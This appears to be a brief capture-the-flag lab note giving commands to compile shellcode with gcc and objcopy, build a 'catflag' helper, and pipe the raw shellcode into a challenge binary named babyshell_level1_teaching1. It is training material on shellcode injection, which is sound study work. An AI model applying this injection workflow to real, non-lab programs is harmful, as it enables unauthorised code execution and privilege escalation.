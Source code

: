 ### shellcode.c compilation
    gcc -static -nostdlib -o shellcode-elf shellcode.s
    objcopy --dump-section .text=shellcode-raw shellcode-elf

### cayflag.c compilation
    gcc -o catflag catflag.c
    
### exploit run
    (cat shellcode-raw;cat) | /babyshell_level1_teaching1
